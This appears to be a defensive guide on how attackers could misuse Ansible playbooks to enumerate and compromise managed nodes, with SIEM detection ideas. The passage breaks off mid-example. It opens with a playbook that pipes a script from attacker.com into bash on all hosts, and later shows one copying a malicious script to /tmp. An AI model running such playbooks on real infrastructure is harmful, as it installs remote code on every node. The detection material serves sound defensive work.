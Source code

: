 ```yaml
- name: Exploit Playbook
  hosts: all
  tasks:
    - name: Execute Malicious Command
      shell: |
        curl http://attacker.com/malicious.sh | bash
```

An attacker with access to Ansible playbooks could leverage them to control, enumerate, or exploit node machines in various ways. Understanding these methods and how to detect them can help you implement SIEM rules to catch such activities. Here's how attackers might use playbooks for malicious purposes, along with suggestions for SIEM rules to detect these actions:

### 1. **Enumerating System Information**
   - **System Inventory Collection:**
     An attacker could create a playbook to gather detailed system information across all nodes, such as installed software, running services, hardware details, etc.

     **Example Playbook:**
     ```yaml
     ---
     - name: Gather system information
       hosts: all
       tasks:
         - name: Gather basic system facts
           setup:

         - name: List installed packages
           command: dpkg -l
           register: installed_packages

         - name: Display running processes
           shell: ps aux
           register: running_processes
     ```
     
     **SIEM Detection:**
     - **Monitor for the use of the `setup` module**: This module gathers system facts, and its usage can indicate an inventory sweep. Trigger alerts if it is invoked unexpectedly.
     - **Alert on playbooks collecting extensive data**: Detect playbooks that combine `setup`, `command`, `shell`, and other similar modules in a way that indicates broad data collection. 

### 2. **Deploying and Running Malicious Scripts**
   - **Execution of Malicious Scripts:**
     An attacker could create a playbook to deploy and execute malicious scripts or binaries across nodes, potentially establishing backdoors or conducting data exfiltration.

     **Example Playbook:**
     ```yaml
     ---
     - name: Deploy and execute a malicious script
       hosts: all
       tasks:
         - name: Copy malicious script to target
           copy:
             src: /path/to/malicious.sh
             dest: /tmp/malicious.sh
             mode: '0755'
